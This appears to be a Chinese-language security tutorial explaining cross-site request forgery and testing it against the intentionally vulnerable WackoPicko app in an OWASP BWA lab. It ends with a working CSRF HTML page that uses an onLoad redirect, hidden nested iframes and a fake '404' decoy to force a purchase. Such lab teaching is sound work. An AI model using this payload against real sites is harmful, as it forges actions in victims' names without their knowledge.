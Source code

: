 **CSRF** 全称Cross-site request forgery，翻译过来就是，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其**点击**恶意链接或者**访问**包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。

CSRF攻击流程：

1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；

4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；

5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### 在WackoPicko应用上测试CSRF

1. 打开burp，设置浏览器代理。
2. 注册攻击用户user_attack，登录[owaspbwa][]/WackoPicko，完成一次购买图片的过程，利用burp分析购买过程的流量。

![](./pictures/CSRF_WackoPicko_1.png)

3. 攻击者上传一张图片，记录下地址栏中图片id=19。根据购买流量，构造如下html文件，存放在/var/www/html/wackopurchase.html。并移动Apache服务`service apache2 start`（这里将Kali机器作为恶意网站服务器）。

```html
<html>
<head></head>
<body onLoad='window.location="http://192.168.2.167/WackoPicko/cart/action.php?action=purchase";setTimeout("window.close;",1000)'>
<h1>Error 404: Not found</h1>
<iframe src="http://192.168.2.167/WackoPicko/cart/action.php?
action=add&picid=19">
<iframe src="http://192.168.2.167/WackoPicko/cart/review.php" >
<iframe src="http://192.168.2.167/WackoPicko/cart/confirm.php">
</iframe>
</iframe>
</iframe>
</body>
```


[owaspbwa]: http://192.168.2.167